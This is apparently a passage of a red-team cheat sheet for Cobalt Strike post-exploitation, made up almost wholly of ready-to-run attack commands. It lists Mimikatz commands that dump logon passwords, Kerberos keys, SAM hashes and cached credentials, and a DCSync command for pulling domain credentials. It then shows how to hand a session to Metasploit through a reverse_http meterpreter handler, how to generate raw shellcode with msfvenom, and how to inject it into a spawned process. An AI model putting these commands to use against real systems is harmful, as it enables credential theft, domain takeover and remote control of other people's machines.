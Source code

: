 #### Mimikatz logonpasswords
```
mimikatz !sekurlsa::logonpasswords
logonpasswords
```

#### Mimikatz ekeys
```
mimikatz !sekurlsa::ekeys
```

#### Mimikatz sam
```
mimikatz !lsadump::sam
```

#### Mimikatz Cached Credentials
```
mimikatz !lsadump::cache
```

#### DCSync
```
dcsync <DOMAIN> <DOMAIN\USER>
```

### Session passing
#### Beacon passing
- From one beacon type to another
- Spawn an process and inject shellcode for the specified listener into it.
```
spawn <ARCHITECTURE> <LISTENER>
```

#### Cobalt strike --> Metasploit
- Only supports `x86`
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST eth0
set LPORT <PORT>
exploit -j
```
- Go to Listeners --> Add and set the Payload to Foreign HTTP. Set the Host, the Port, Set the name to `msf` and click Save. The command `spawn msf` will pass the session to metasploit.
```
spawn msf
```

#### Cobalt strike --> Metasploit shellcode shinject new process
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_http
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=8080 -f raw -o /tmp/msf.bin

execute C:\Windows\System32\notepad.exe
ps
shinject <PID> x64 msf.bin
```
